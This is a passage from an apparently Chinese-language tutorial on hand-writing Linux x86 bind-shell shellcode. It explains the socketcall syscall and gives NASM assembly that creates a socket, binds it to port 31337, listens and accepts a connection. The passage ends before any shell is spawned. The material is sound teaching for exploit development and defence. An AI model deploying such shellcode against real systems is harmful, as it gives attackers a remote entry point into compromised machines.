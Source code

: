 在linux中，可以直接和内核进行交互调用一个叫`socketcall`的syscall来使用这些函数

    ~/Work/notes/shellcode ⮀ grep socketcall /usr/include/asm/unistd_32.h 
    #define __NR_socketcall 102

函数的用法`man socketcall`。第一个参数在`/usr/include/linux/net.h`中寻找。

那么，在我们的shellcode中实现和C中一样，只是直接调用了系统调用socketcall。

首先建立一个套接字，用法请自行`man socket`。

    int socket(int domain, int type, int protocol);
    
协议族(domain)是2(`PF_INET`，或者`AF_INET`,一样的)，类型(type)为1(`SOCK_STREAM`)，协议(protocol)为0(这个协议族只有一个协议，0就可以了)。奇怪这些数字哪里来的？`cat /usr/include/bits/socket.h`中自行grep。

当我们用如下汇编语言来进行syscall之后，套接字句柄返回到eax中，我们用一个高效精简的指令把它放到esi中暂存。

{% highlight nasm %}
; s = socket(2, 1, 0) or socketcall(1, &(2,1,0))
  push BYTE 0x66 	; syscall 102
  pop eax 
  cdq 		; 将eax扩展为保存在eax:edx中的64位数，将edx清为0
  xor ebx, ebx 	; 将ebx清0
  inc ebx 		; 1 = socket()
  push edx		; 将NULL推入堆栈 参数列表 ( protocol = 0
  push BYTE 0x1	; 将8位1推入栈   (逆序)      SOCK_STREAM = 1
  push BYTE 0x2	; 将8位2推入栈               AF_INET = 2)
  mov ecx, esp 	; 将栈顶地址推入ecx
  int 0x80
{% endhighlight %}

接下来,将该套接字绑定(bind)到端口31337上,监听(listen)此端口,接收(accept)。方式和以上完全一样，不做详细解释。只在汇编程序中做一些必要的注释。遇到问题请man.

{% highlight nasm %}
; bind(s, [2, 31337, 0], 16)
  push BYTE 0x66
  pop eax
  inc ebx
  push edx
  push WORD 0x697a; inverse order
  push WORD bx
  mov ecx, esp ; server struct pointer
  push BYTE 16
  push ecx
  push esi
  mov ecx, esp; argument array
  int 0x80

; listen(s, 0)  
  mov BYTE al, 0x66
  inc ebx
  inc ebx
  push ebx
  push esi
  mov ecx, esp
  int 0x80

; c = accept(s, 0, 0)
  mov BYTE al, 0x66
  inc ebx
  push edx
  push edx
  push esi
  mov ecx, esp; ecx=argument array
  int 0x80
{% endhighlight %}
